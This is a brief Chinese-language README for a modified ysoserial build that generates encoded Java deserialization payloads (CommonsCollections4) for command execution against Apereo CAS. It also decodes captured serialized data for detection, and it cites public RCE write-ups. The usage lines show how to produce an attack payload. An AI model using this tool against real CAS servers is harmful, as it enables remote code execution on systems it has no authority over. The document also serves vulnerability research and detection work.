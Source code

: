 ## ApereoCas反序列化回显与检测
### 0x01 前言
工具源码来源于
```
https://github.com/frohoff/ysoserial
```
改造思路来源于
```
https://www.00theway.org/2020/01/04/apereo-cas-rce/
https://www.anquanke.com/post/id/198842
https://www.freebuf.com/vuls/226149.html
```

### 0x02 使用方法

命令执行：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar encode CommonsCollections4
```
![create](create.jpg)
![execute](execute.jpg)
CommonsCollections4 这个payload可以自行修改，选项可参考ysoserial的用法

检测：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar decode base64string 1.txt
```
base64string应该注意把前面的杂乱数据去掉，比如
![base64](base64.jpg)
![detect](detect.jpg)
xxx.txt是把序列化数据存入到xxx.txt文件中



